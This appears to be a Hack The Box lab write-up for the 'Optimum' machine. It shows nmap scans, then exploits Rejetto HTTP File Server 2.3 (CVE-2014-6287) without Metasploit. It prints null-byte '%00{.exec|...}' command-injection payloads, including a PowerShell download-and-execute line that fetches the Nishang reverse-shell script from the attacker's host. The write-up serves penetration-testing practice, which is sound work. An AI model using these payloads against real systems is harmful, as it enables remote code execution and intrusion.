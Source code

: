 # Hack The Box - Optimum

```CSS
Machine IP: 10.10.10.8

Vulnerabilities:
  - Rejetto HTTP File Server 2.3: CVE-2014-6287 (w/o MetaSploit)
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.8 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.8 -oN deep.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP #80
![image](https://user-images.githubusercontent.com/83878909/235110690-0249d8ca-39e8-42c0-b237-2aab3e219a96.png)

### HTTP File Server 2.3
  - CVE-2014-6287 : The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### Exploit
![image](https://user-images.githubusercontent.com/83878909/236133911-37a8b4c2-129c-4215-81f0-4b67efba6033.png)

#### Command Execution

```CSS
▶ tcpdump -i tun0
```
```CSS
%00{.exec|ping 10.10.14.21.}
```
![image](https://user-images.githubusercontent.com/83878909/236135355-c044f521-5cea-4d4c-abb3-95aafa954d6c.png)
![image](https://user-images.githubusercontent.com/83878909/236134669-802324a7-fbd7-4cf3-9cd8-6bc4c8336c04.png)

#### Reverse Shell (Nishang)

- `Invoke-PowerShellTcp.ps1`
![image](https://user-images.githubusercontent.com/83878909/236135960-4b5a97fd-8c54-4847-ac0e-f6e6c1dbed23.png)

  - Copy and Paste the line of code to the bottom of the sciript.
  - Edit the code.
![image](https://user-images.githubusercontent.com/83878909/236136805-0bc1601e-7bad-4b11-bad7-3206cf2f3dcd.png)
![image](https://user-images.githubusercontent.com/83878909/236137400-fad06366-6e40-4a1f-b0de-1f1d8831b9ff.png)

  - Upload the `Nishang` script.
  - Start a reverse `Netcat` listener.

```CSS
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1').}
```
![image](https://user-images.githubusercontent.com/83878909/236139893-93d6cafd-91f1-4da8-94cc-4c2a5ca6079b.png)
![image](https://user-images.githubusercontent.com/83878909/236139759-484a70c3-ca74-4e01-9096-50befb2d0dc6.png)

  - Target system information.
```CSS
PS C:\Users\kostas\Desktop>systeminfo                                                
```
![image](https://user-images.githubusercontent.com/83878909/236140832-cb67ae27-8fb1-42cf-8dcc-b03aca12c96c.png)

